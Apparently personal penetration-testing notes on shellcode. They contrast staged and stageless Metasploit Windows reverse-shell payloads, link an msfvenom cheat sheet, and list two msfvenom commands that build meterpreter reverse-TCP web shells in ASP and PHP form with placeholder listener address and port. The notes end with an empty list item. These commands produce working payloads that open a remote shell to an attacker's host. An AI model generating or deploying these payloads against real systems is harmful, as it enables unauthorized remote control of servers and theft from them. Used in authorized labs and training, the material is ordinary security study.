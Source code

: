
# Shell Code
- there is a difference between 
  - windows/shell_reverse_tcp
  - windows/shell/reverse_tcp

## shell code creation
- creation of general shells once something is exploited
- here's a great cheat sheet as well: https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/

  ###

  ### Web Payloads
    - asp 
      - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
    - php
      - msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
    - 


